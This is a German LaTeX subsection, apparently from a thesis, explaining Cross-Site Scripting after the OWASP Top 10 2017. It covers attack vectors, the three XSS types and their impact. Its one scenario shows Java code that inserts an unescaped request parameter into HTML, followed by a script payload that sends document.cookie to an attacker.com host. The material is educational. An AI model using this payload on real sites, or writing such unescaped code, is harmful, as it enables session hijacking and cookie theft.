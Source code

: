 \subsubsection{Cross-Site Scripting (XSS)}

XSS-Schwachstellen treten auf, wenn eine Anwendung nicht vertrauenswürdige Daten entgegennimmt und ohne entsprechende Validierung oder Umkodierung an einen Webbrowser sendet. XSS erlaubt es einem Angreifer Scriptcode im Browser eines Opfers auszuführen und somit Benutzersitzungen zu übernehmen, Seiteninhalte zu verändern oder den Benutzer auf bösartige
Seiten umzuleiten\cite[6]{owasp17top10}.

\textbf{Angriffsvektoren:} Der Angreifer sendet textbasierte Angriffsskripte, die Eigenschaften des Browsers ausnutzen. Fast jede Datenquelle kann einen Angriffsvektor beinhalten, auch interne Quellen wie Datenbanken.\cite[13]{owasp17top10}.

\textbf{Schwachstellen:} XSS ist die am weitesten verbreitete Schwachstelle in Webanwendungen. XSSSchwachstellen treten dann auf, wenn die Anwendung vom Benutzer eingegebene Daten übernimmt, ohne sie hinreichend zu validieren und Metazeichen als Text zu kodieren. Es gibt drei Typen von XSSSchwachstellen:
1) Persistent, 2) nichtpersistent/reflektiert, und 3) DOM-basiert
(lokal). Die meisten XSS-Schwachstellen sind verhältnismäßig einfach mit Hilfe von Tests oder Code-Analyse zu erkennen.\cite[13]{owasp17top10}.

\textbf{Technische Auswirkungen:} Angreifer können Skripte im Browser des Opfers ausführen und die Session übernehmen, Webseiten entstellen, falsche Inhalte einfügen, Benutzer umleiten, den Browser des Benutzers durch Malware übernehmen.\cite[13]{owasp17top10}.

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\
Die Anwendung übernimmt nicht vertrauenswürdige Daten, die nicht auf Gültigkeit geprüft oder escaped werden, um folgenden HTML-Code zu generieren :\cite[13]{owasp17top10}:

\texttt{(String) page += "<input name='creditcard' type='TEXT‘}\\
\texttt{value='" + request.getParameter("CC") + "'>";}\\
Der Angreifer ändert den Parameter ‘CC’ in seinem Browser
auf\cite[13]{owasp17top10}:

\texttt{'><script>document.location=\\
	'http://www.attacker.com/cgi-bin/cookie.cgi?}\\
\texttt{foo='+document.cookie</script>'}

